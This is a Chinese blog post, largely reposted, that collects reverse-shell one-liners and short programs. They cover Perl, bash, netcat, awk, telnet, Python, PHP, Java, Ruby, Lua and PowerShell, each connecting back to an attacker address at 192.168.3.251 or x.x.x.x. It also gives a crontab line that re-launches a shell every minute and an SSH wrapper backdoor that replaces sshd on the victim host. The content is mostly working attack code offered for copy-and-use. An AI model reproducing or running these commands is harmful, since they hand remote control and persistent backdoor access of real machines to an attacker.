

Title: 各种姿势的反弹shell
Category: Linux
Date: 2017-5-27
slug: reverse-shell 

来源: <https://klionsec.github.io/2016/09/27/revese-shell/> 

--
2019.8.5 update:
alfred上反弹shell的这几个方法如果是在aliyun主机上面，会被实时检测到 :)

--
2019.1.23 更新:

这个是mac下的alfred软件，导入下面的workflow就能用了，触发关键词是pp，源代码很简单，可以照着改。



<https://github.com/JKme/mycollect/blob/master/pop-shell.alfredworkflow>

--

###Perl反弹(几乎主流的linux都有perl环境）

```
perl -e 'use Socket;$i="192.168.3.251";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

###bash反弹[redhat系列，不建议使用exec]

`bash -i >& /dev/tcp/192.168.3.251/8080 0>&1  [适合redhat系列,不建议用exec,兼容性并不好]`

###ssh反弹［阿里上面有一篇文章讲解的是其中原理]
```
受害主机执行:
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8080;   

攻击机器:
ssh root@192.168.3.251 -p 8080 [用户名root,密码随意]

```

###简易SSH wrapper后门(原理未测试)

```
受害主机执行:
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' > sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart

攻击机器:
 socat STDIO TCP4:x.x.x.x:22,souceport=13337
 
```

##NC反弹

默认linux的nc没有带-e(发送至性程序)选项, 可以通过命名管道的方式把bash通过nc反弹出来

```
受害主机:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 > /tmp/f

攻击主机先监听8080端口:

nc -lvp 8080
```

###使用cryptcat，加密版nc

##AWK反弹
攻击的机器监听，在收到shell的时候不可以输入enter，不然会断开

```
awk 'BEGIN{s="/inet/tcp/0/192.168.3.251/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

```

###Telnet反弹

```
受害主机:

telnet 192.168.3.251 8080 | /bin/bash | telnet 192.168.3.251 1080

攻击主机:
nc -lvp 1080 
nc -lvp 8080 //这里输入命令可以在1080看到结果
```

####跟上面大同小异

```
受害机器:
mknod test p && telnet 192.168.3.251  8080 0<test | /bin/bash 1>test

攻击：
nc  -lvvp 8080

top命令看不到结果，因为不是tty
```


###Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.3.251",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

####crontab

```
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.3.251\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -
```

###PHP反弹

```
php -r '$sock=fsockopen("192.168.3.251",8080);exec("/bin/bash -i <&3 >&3 2>&3");'
```

###Java

```
public class Revs {
	/**
	* @param args
	* @throws Exception 
	*/
	public static void main(String[] args) throws Exception {
		// TODO Auto-generated method stub
		Runtime r = Runtime.getRuntime();
		String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.3.251/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"};
		Process p = r.exec(cmd);
		p.waitFor();
	}
}

```

###Ruby

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.3.251","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


###Lua

```

 lua -e "require('socket');require('os');t=socket.tcp();t:connect('192.168.3.251','8080');os.execute('/bin/sh -i <&3 >&3 2>&3');"
 
```

##WIndows

```


PS C:\> Import-Module .\powercat.ps1
PS C:\> powercat -c 192.168.3.251 -p 8081 -e cmd -g >> payload.ps1
# nc -lvp 8081 然后开始监听payload回连的端口

powershell –exec bypass –Command "& {Import-Module 'C:\payload.ps1'}"
 挂在后台执行
```

另外还有Jsrat反弹


>反弹的核心是和目标系统建立连接(如果中间被防火墙阻断了,那你就要想办法了,尤其当你一个较低的权限在操作时,这里只是单纯的把shell弹回来,至于其他的各种问题,后续再说),不管你用系统的管道也好,用各种语言提供的socket函数也好,反正最后的目的只有一个,我们只是需要一个目标系统的shell……基于现有这些思路,其实,还可以衍生出来非常多的shell反弹方式,大家只要敢开脑洞就好了,理解反弹shell的本质比直接抄来就用会好很多,其实,有时候真的并不需要自己多么多高的智商,你只需要站在前人的肩膀上,基于现有的资源条件下不断衍生出自己的想法并加以实践这就足以变的强大起来,虽然,会慢人一步,但那只是暂时的,厚积薄发,融会贯通嘛,贵在坚持

基本是全文转载。。。。。
